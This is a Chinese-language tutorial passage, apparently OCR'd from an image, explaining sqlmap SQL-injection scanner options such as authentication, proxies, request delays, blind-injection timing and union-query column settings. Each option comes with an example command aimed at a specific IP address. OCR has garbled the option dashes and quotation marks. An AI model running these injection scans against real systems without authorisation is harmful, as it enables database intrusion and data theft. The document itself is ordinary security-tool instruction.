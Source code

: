 > **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —method=GET**

1. ##### —auth-type ， —auth-cred： 身份认证，还有Digest、NTLM

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —auth-type Basic —auth-cred “user:pass”**

1. ##### —auth-file=”ca.PEM” ： 使用私钥证书去进行身份认证，还有个参数—auth-cert，暂时不知道怎么用，没遇到过

2. ##### —proxy ：使用代理去扫描目标，代理软件占用的端口在8080

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —proxy=”http://127.0.0.1:8080/“**

1. ##### —proxy-cred：使用代理时的账号和密码

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —proxy=”http://127.0.0.1:8080/“ —proxy-cred=”name:pass”**

1. ##### —ignore-proxy ： 忽略系统级代理设置，通常用于扫描本地网络目标，本网段。

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —ignore-proxy**

## 五.配置目标行为

1. ##### —force-ssl：使用HTTPS连接进行扫描

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —force-ssl**

1. ##### —delay：每次http请求之间的延迟时间，默认无延迟

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —delay=”3”**

1. ##### —timeout：请求超时时间，浮点数，默认为30秒

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —timeout=”10”**

1. ##### —retries：http连接的重试次数，默认3次

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —retries=”1”**

1. ##### —randomize：长度、类型与原始值保持一致的情况下,随机参数的取值。比如id=100 -> id=1??

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —randomize=”id”**

1. ##### —safe-url：检测盲注阶段时，sqlmap会发送大量失败请求，可能导致服务器端销毁session

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —safe-url=”URL”**

1. ##### —safe-freq ： 每发送多少次注入请求后，发送一次正常请求，配合—safe-url使用。

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —safe-freq**

1. ##### —time-sec： 基于时间的注入检测相应延迟时间，默认5秒

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —time-sec=”3”**

1. ##### —union-cols ：默认联合查询1-10列，随—level增加，最多支持100列。

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —union-cols 6-9**

1. ##### —union-char：联合查询默认使用null，极端情况下可能失败，此时可以手动执行数值

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —union-char 123**

1. ##### —technique US ： 指定检测注入时所用技术，默认情况下Sqlmap会使用自己支持的全部技术进行检测，有B、E、U、S、T、Q
